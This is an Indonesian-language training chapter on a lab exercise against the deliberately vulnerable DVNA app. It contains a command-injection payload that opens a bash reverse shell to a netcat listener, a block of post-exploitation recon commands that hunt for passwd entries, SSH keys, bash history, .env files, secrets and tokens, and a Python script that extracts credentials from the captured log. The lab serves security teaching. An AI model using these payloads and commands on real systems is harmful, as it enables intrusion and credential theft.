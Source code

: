 # Reverse Shell

*Basic Python for Cybersecurity*

*© 2025 Yogi Agnia Dwi Saputro dan PT. Cyberkarta Tugu Teknologi.*

Dilarang keras memperbanyak, menyalin, mendistribusikan, atau menggunakan sebagian atau seluruh isi karya ini dalam bentuk apapun tanpa izin tertulis dari pemegang hak cipta.

------------------------------------

## Praktik Reverse Shell dengan Python

### Strategi Serangan dengan Reverse Shell
- Target: DVNA di localhost:9090

Strategi ketika berada dalam sistem
1. Gali informasi dasar
2. Cari potensi breakout 
3. Gali informasi lateral
4. Eskalasi privilage
5. Data exfiltration

Dalam sesi ini akan dipelajari bagian 1 & 3 sebagai aspek yang lebih relevan dalam programming.
Jika memungkinkan, akan dijalankan juga bagian 5

#### Phase 1: Ambil Informasi Dasar
Konsep dari mencari informasi dasar adalah mengetahui server, user mana yang aktif, serta cek proses yang berjalan. Informasi ini nantinya dapat berguna untuk membangun serangan berikutnya. Contoh perintah shell untuk mencari informasi dasar sebagai berikut.
- `id`: 
- `whoami`: 
- `hostname`: 
- `pwd`: 
- `uname -a`: 
- `cat /etc/os-release`: 
- `ls -al /`: 
- `cat /etc/hosts`: 
- `env`: 
- `netstat -tulpn`: 
- `ps aux`: 
- `mount`: 
- `findmnt`: 

#### Phase 3: Ambil Informasi Lateral
Dalam menjalankan peran sebagai server, biasanya akan ada "jejak" interaksi dengan sistem lain. Contohnya adalah log, database, config, env, kredensial, atau history.

### Eksekusi

#### Phase 1: Ambil Informasi Dasar
1. nyalakan DVNA Docker. 
  - Jika sudah ada docker DVNA dari chapter sebelumnya cukup cek `docker ps`. Jika ada container dengan nama "DVNA", maka aplikasi sudah berjalan.
  - Jika tidak ada container aktif, jalankan dengan `docker start dvna`
2. login DVNA --> masuk menu dengan vulnerability. Default DVNA di `http://localhost:9090/app/ping`
3. di terminal attacker, jalankan command netcat: `nc -lvp 4444 > shell.log`
4. di menu DVNA, jalankan command untuk reverse shell: `127.0.0.1;bash -c 'bash -i >& /dev/tcp/172.17.0.1/4444 0>&1'`
5. di terminal attacker ekspektasi sudah terbuka shell. Paste command berikut:
```bash
  echo "[*] whoami: $(whoami)";
  echo "[*] id: $(id)";
  echo "[*] hostname: $(hostname)";
  echo "[*] pwd: $(pwd)";
  echo "[*] ls -al: $(ls -al)";
  echo "[*] uname -a: $(uname -a)";
  echo "[*] ps aux: $(ps aux)";
  echo "[*] path: $PATH | tr ':' '\n'";
  echo "[*] binaries: ls -1 /usr/bin /bin /usr/local/bin 2>/dev/null | sort | uniq";
  echo "[*] /etc/os-release:"; cat /etc/os-release;
  echo "[*] /etc/passwd:"; cat /etc/passwd;
  echo "[*] /etc/hosts:"; cat /etc/hosts;
  echo "[*] ip a || ifconfig:"; ip a || ifconfig;
  echo "[*] cat /etc/resolv.conf:"; cat /etc/resolv.conf;
  echo "[*] env: $(env)";
  echo "[*] mount: $(mount)";
  echo "[*] df -h: $(df -h)";
  echo "[*] findmnt: $(findmnt)";
  echo "[*] netstat -tulpn: $(netstat -tulpn)";
  echo "[*] find / -name '.env' 2>/dev/null: $(find / -name '.env' 2>/dev/null)";
  echo "[*] find / -name 'config*.json' 2>/dev/null: $(find / -name 'config*.json' 2>/dev/null)";
  echo "[*] find / -name '*.py' -exec grep -i 'secret' {} /dev/null \\; 2>/dev/null: $(find / -name '*.py' -exec grep -i 'secret' {} /dev/null \\; 2>/dev/null)";
  echo "[*] find / -name '*.js' -exec grep -i 'token' {} /dev/null \\; 2>/dev/null: $(find / -name '*.js' -exec grep -i 'token' {} /dev/null \\; 2>/dev/null)";
  echo "[*] ls -lah /root: $(ls -lah /root)";
  echo "[*] ls -lah /home: $(ls -lah /home)";
  echo "[*] cat ~/.bash_history || cat /root/.bash_history: $(cat ~/.bash_history || cat /root/.bash_history)";
  echo "[*] ls -lah ~/.ssh || ls -lah /root/.ssh: $(ls -lah ~/.ssh || ls -lah /root/.ssh)";
```
6. Selesai, untuk saat ini.

*Note*
- `172.17.0.1` adalah Docker bridge IP yang umum
- `4444` adalah port yang dibuka 

#### Phase 3: Ambil Informasi Lateral

Dari log yang sudah didapat, kita bisa lakukan analisis lebih dalam.
Dalam kasus ini, ada dua hal yang akan dilakukan:
1. Cari data sensitif
2. Gali informasi tech stack untuk exploit lanjutan

Masih ingat dengan program log analysis yang pernah dibuat? Kali ini kita upgrade lagi.
```python
# log_analysis_v3.py
# For educational purposes only

import sys
import argparse

def extract_sensitive_data(filepath, keywords):
    findings = {}

    try:
        with open(filepath, "r") as file:
            lines = file.readlines()
        
        for keyword in keywords:
            findings[keyword] = []

            for line in lines:
                if keyword in line:
                    findings[keyword].append(line.strip())
    except Exception as e:
        print(f"error: {str(e)}")
        sys.exit(1)
    
    return findings

def stack_frequency_analysis(filepath):
    freq_counter = {}
    stack_keywords = ["node", "cpp", "java", "python", "docker", "sql", "linux", "windows", "go"]
    try:
        with open(filepath, "r") as file:
            lines = file.readlines()
        
        for keyword in stack_keywords:
            freq_counter[keyword] = 0

            for line in lines:
                if keyword in line:
                    freq_counter[keyword] += 1
    except Exception as e:
        print(f"error: {str(e)}")
        sys.exit(1)
    
    return freq_counter

def main():
    parser = argparse.ArgumentParser(description="Log Analysis V3")
    parser.add_argument(
        "-k", "--keywords",
        required=True,
        help="Comma-separated list of keywords: api,secret,key,token"
    )
    parser.add_argument(
        "-f", "--file",
        required=True,
        help="path of file to be analyzed"
    )
    args = parser.parse_args()
    sensitive_keyword_list = [keyword.strip() for keyword in args.keywords.split(",")]

    try:
        sensitive_findings = extract_sensitive_data(args.file, sensitive_keyword_list)
        print(sensitive_findings)
        tech_stack_findings = stack_frequency_analysis(args.file)
        print(tech_stack_findings)
    except Exception as e:
        print(f"error: {str(e)}")

if __name__ == "__main__":
  main()
```

#### What's Next?
Dari informasi yang tersedia, kamu dapat mencari potensi exploit. Contoh:
- Copy file DB SQLite
- Exploit library obsolete untuk dimanfaatkan celahnya

### Kapan Python Masuk?

- Python bisa masuk untuk 2 keperluan:
  1. Menanam backdoor --> perlu instalasi Python ke dalam target
  2. Support proses serangan

- Dalam kasus DVNA, akses terhadap `apt` dan `python3` dibatasi, sehingga perlu workaround lain. 
- Agar tetap dalam koridor pemrograman, pendekatan nomor 1 tidak dilanjutkan (tentunya teman-teman pembelajar boleh eksplorasi mandiri).
- Python masuk untuk support serangan, dalam kasus ini analisis log yang lebih komprehensif.

### Catatan Tambahan
- 


## Referensi
-